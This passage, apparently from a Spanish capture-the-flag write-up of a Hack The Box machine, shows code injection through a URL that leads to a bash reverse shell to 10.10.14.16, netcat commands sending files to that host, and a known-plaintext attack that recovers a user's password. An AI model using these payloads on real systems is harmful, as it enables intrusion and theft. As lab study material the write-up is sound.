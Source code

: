 ```console
└─$ curl -s "http://obscure.htb:8080/';os.system('ping -c 1 10.10.14.16');'" # Nada
└─$ curl -s "http://obscure.htb:8080/';os.system('ping%20-c%201%2010.10.14.16');'"
# ping -c 1 10.10.14.16. El %20 es un queivalente a espacio, como se pasa a urllib.parse.unquote se desurlencodea

└─$ curl -s "http://obscure.htb:8080/';os.system('bash%20-c%20\'bash%20-i%20>%26%20/dev/tcp/10.10.14.16/443%200>%261\'');'"  
#bash -c 'bash -i >%26 /dev/tcp/10.10.14.8/443 0>%261'  
```
-------------------------------
# Part 3: Script custom de encriptado

Por netcat entramos en el sistema como www-data. Antes de hacer mas enumeración en la carpeta home del usaurio robert encontramos cosas curiosas:
```console
www-data@obscure:/home/robert$ ls
BetterSSH  out.txt		SuperSecureCrypt.py
check.txt  passwordreminder.txt  user.txt
www-data@obscure:/home/robert$ cat check.txt
Encrypting this file with your key should result in out.txt, make sure your key is correct!
```

El script encripta y desencripta, para desencriptar nos pide un archivo y una llave para sacar en otro (resultado) out.txt y passwordreminder.txt son bytes 
sin sentido. Paso todo a mi sistema porque si le haces cat a una cadena cifrada se puede quedar colgado el sistema

```console
www-data@obscure:/home/robert$ nc 10.10.14.16 6666 < out.txt
www-data@obscure:/home/robert$ nc 10.10.14.16 6666 < check.txt
www-data@obscure:/home/robert$ nc 10.10.14.16 6666 < SuperSecureCrypt.py
www-data@obscure:/home/robert$ nc 10.10.14.16 6666 < passwordreminder.txt
```
Si tenemos dos cosas (encriptado y llave) para sacar una tercera (desencriptado), como en el enciprtado XOR. Podemos hacer que esas dos cosas sean encriptado
y desencriptado para sacar la llave sin necesidad de saberlas minucias del algoritmo que ha utilizado.
```console
└─$ python3 SuperSecureCrypt.py -i out.txt -k 'Encrypting this file with your key should result in out.txt, make sure your key is correct!' -d -o ./contraseña.txt
└─$ cat ./contraseña.txt
alexandrovichalexandrovichalexandrovichalexandrovichalexandrovichalexandrovichalexandrovich

└─$ python3 SuperSecureCrypt.py -i passwordreminder.txt -k 'alexandrovich' -o ./robert.txt -d  
└─$ cat robert.txt
SecThruObsFTW

www-data@obscure:/home/robert$ su robert
Password: SecThruObsFTW
robert@obscure:~$ 
```
